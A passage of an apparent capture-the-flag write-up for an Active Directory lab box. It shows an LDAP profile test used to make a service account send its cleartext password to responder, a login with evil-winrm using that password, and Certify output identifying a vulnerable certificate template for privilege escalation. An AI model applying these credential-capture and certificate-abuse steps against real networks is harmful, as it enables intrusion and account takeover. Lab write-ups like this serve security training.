 Click `Test LDAP Profile` to force the `svc_ldap` SA to authenticate to your host using the plaintext ldap protocol. This way, `responder` can capture the plaintext password for the `svc_ldap` SA.

responder result:
```log
[LDAP] Cleartext Client   : 10.129.33.195
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

```bash
evil-winrm -i 'authority.htb' -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```

## PrivEsc -> `Administrator`

Certify result:
```log
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> .\Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
```